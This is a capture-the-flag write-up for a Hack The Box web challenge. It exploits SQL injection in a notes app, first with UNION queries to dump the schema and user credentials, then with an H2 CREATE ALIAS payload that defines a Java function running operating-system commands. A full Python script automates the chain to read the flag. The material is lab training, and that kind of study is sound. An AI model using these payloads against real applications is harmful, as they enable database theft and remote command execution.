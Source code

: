 # Pentest Notes - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We start the challenge and we are given a host to connect to via our web browser:
![[Pasted image 20250505072550.png]]

Upon going to the host, we are greeted with a login page to login or register:
![[Pasted image 20250505072633.png]]

Creating an account, we can see a checklist called 'PENTEST CHECKLIST':
![[Pasted image 20250505072722.png]]

Clicking on the SQL Injection note, we see a comment that says `One ' to rule them all`. This hints at SQLi, so we start probing the website and messing with the URL with a `'` to test for SQLi.
## Exploitation: SQLi
After adding our payload to the end of the URL, we can find some output when we use 3 `NULL`s, which indicates the notes have 3 columns.

We also determine that the first column is not a string, but the second and third (Name and Note) columns are strings. We can determine this by replacing `NULL` with `a` for the `NULL` value:
![[Pasted image 20250505075257.png]]

We list all the databases with: `' UNION SELECT NULL, schema_name, NULL FROM information_schema.schemata--`
![[Pasted image 20250505075946.png]]

We have 2 databases: 
1. INFORMATION_SCHEMA
2. PUBLIC

We query the `INFORMATION_SCHEMA` database to list all the tables, and see a table called `USERS`. We query the table to see all the columns, then get all the users usernames and passwords in the table:
![[Pasted image 20250505081303.png]]

If we login as `user` with password `123`, we just get to the same page with the same PENTEST CHECKLIST.

I continued to search through all the tables, but couldn't find anything useful. I decided to capture requests in Burp Suite to see what I could find through there.

We capture a request in Burp Suite when re-loading the page to find a POST request being sent to /api/note:
![[Pasted image 20250505094118.png]]

Here we find we can also submit the SQL injection through the name of the request (after `SQL Injection`):
![[Pasted image 20250505094359.png]]

Since we already went through all the tables and couldn't find anything, we can try to get command injection through the following payload:
![[Pasted image 20250505094518.png]]
This command does the following:
- Ends the current SQL command.
- Creates a Java-based SQL function named `EXE_CMD` that can run any system command.
- Comments out the rest of the original SQL query to avoid syntax errors.

Now we can execute commands with the following payload:
![[Pasted image 20250505094753.png]]

We traverse through the file system and find a file that contains the flag:
![[Pasted image 20250505104732.png]]
# Automation with Python
Script created to automate the challenge:
```python
import requests  # Used to make HTTP requests (GET, POST, etc.)
import re        # Used for regular expressions to search for patterns (e.g., the flag format)

# Base target URL (replace with the current HTB instance IP:PORT)
base_url = 'http://83.136.248.49:52176'

# Create a persistent session object to retain cookies and headers across requests
session = requests.Session()

# Step 1: LOGIN TO THE APPLICATION
# Construct the full login endpoint
login_url = f'{base_url}/login'

# Provide default credentials to log in
login_data = {
    'username': 'user',
    'password': '123'
}

# Set HTTP headers to mimic a normal browser request
login_headers = {
    'Content-Type': 'application/x-www-form-urlencoded',  # Form submission format
    'Origin': base_url,  # Helps prevent CSRF on some servers
    'Referer': f'{base_url}/login',  # Shows the source page of the request
    'User-Agent': 'Mozilla/5.0'  # Mimics a real browser to avoid being blocked
}

# Send POST request to login with the above data and headers
response = session.post(login_url, data=login_data, headers=login_headers)

# Check if session cookie (JSESSIONID) is set, which indicates a successful login
if 'JSESSIONID' not in session.cookies.get_dict():
    print("Login failed or session not set properly.")
    exit(1)  # Exit the script if login fails

print("Logged in successfully.")

# Step 2: CREATE A MALICIOUS SQL ALIAS 
# Payload to inject SQL that defines a new Java alias 'EXE_CMD' for executing system commands
alias_payload = (
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS\r\n"
    "Content-Disposition: form-data; name=\"name\"\r\n\r\n"
    "SQL Injection'; CREATE ALIAS EXE_CMD AS 'String exec(String cmd) throws Exception { "
    "Process p = Runtime.getRuntime().exec(cmd); java.util.Scanner s = new java.util.Scanner(p.getInputStream()).useDelimiter(\"\\\\A\"); "
    "return s.hasNext() ? s.next() : \"\";}' --\r\n"
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS--\r\n"
)

# Headers for sending multipart/form-data (needed for file/form uploads)
alias_headers = {
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryPfGWWNBRSLYgbcBS',
    'Origin': base_url,
    'Referer': f'{base_url}/note?name=SQL%20Injection',
    'User-Agent': 'Mozilla/5.0'
}

# Endpoint to create a note, which is being abused here for SQL injection
alias_url = f'{base_url}/api/note'

# Send malicious payload to the vulnerable endpoint to create the alias
response = session.post(alias_url, data=alias_payload, headers=alias_headers)
print("Alias payload sent.")

# Step 3: USE THE ALIAS TO EXECUTE A SYSTEM COMMAND
# This payload injects a UNION-based SQL query to call the EXE_CMD alias and read the flag file
exploit_payload = (
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS\r\n"
    "Content-Disposition: form-data; name=\"name\"\r\n\r\n"
    "SQL Injection' union select NULL,NULL,EXE_CMD('cat flag.txt') --\r\n"
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS--\r\n"
)

# Use same headers as above since we're still submitting multipart form data
exploit_headers = {
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryPfGWWNBRSLYgbcBS',
    'Origin': base_url,
    'Referer': f'{base_url}/note?name=SQL%20Injection',
    'User-Agent': 'Mozilla/5.0'
}

# Reuse the same endpoint to now exploit the alias and read the file
response = session.post(alias_url, data=exploit_payload, headers=exploit_headers)

# Step 4: SEARCH THE RESPONSE FOR THE FLAG
# Look for a flag matching HTB{...} format using regex
flag_match = re.search(r'HTB\{.*?\}', response.text)

# If found, print it; otherwise, show a failure message
if flag_match:
    print(f"Flag found: {flag_match.group(0)}")
else:
    print("Flag not found.")
```
- Logs into the target site and keeps the session alive using `requests.Session()`
- Submits a payload to create a Java alias function to execute OS commands
- Sends a second payload to trigger the alias and read the flag file
- Extracts and prints the flag

Result:
![[Pasted image 20250505103827.png]]